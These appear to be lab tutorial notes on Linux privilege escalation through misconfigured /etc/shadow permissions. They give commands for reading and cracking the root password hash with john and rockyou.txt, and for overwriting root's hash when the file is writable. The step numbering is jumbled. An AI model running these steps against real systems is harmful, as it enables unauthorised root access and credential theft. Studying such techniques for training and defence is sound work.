









/etc/shadow
Where are stored the passwords hashes in Linux: description of /etc/passwd and /etc/shadow
/etc/shadow
• world readable → we might crack the root user’s password hash
0) Check Permissions
target@debian:~$ ls -l /etc/shadow
target@debian:~$ ls -l /etc/shadow- #backup file of shadow
target@debian:~$ ./lse.sh -l 1 #linux smart enumeration tool


1) Target: Extract the root user password hash
target@debian:~$ head -n 3 /etc/shadow

2) Attacker: Save the hash in a file in the attacker machine
attacker@kali:/# echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt

3) Attacker: Crack the password
In this case as we have seen in Where are stored the passwords hashes in Linux, $6$ is the algorithm SHA-512
To identify the hash we can:
▪ go to https://hashcat.net/wiki/doku.php?id=example_hashes
▪ use the tool name-that-hash
We can use rockyou.txt that has 14.344.392 entries(Download), to extract it “gzip -d rockyou.txt.gz”
attacker@kali:/# john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

6) Target: Switch to the root user with the cracked password
target@debian:~$ su #insert the password cracked

• world writable → we can replace the root user’s password hash with one we know
0) Target: Check Permissions
target@debian:~$ ls -l /etc/shadow
target@debian:~$ ./lse.sh -l 1 #linux smart enumeration tool


7) Target: Copy/save the contents of /etc/shadow so we can restore it later
target@debian:~$ cp /etc/shadow /etc/shadowCopy
2) Attacker: Generate a new SHA-512 password hash
attacker@kali:/# mkpasswd -m sha-512 <newpassword>
3) Target: Edit the /etc/shadow and replace the root user’s password hash with the one we generated
target@debian:~$ vim /etc/shadow

4) Target: switch to the root user with the changed password
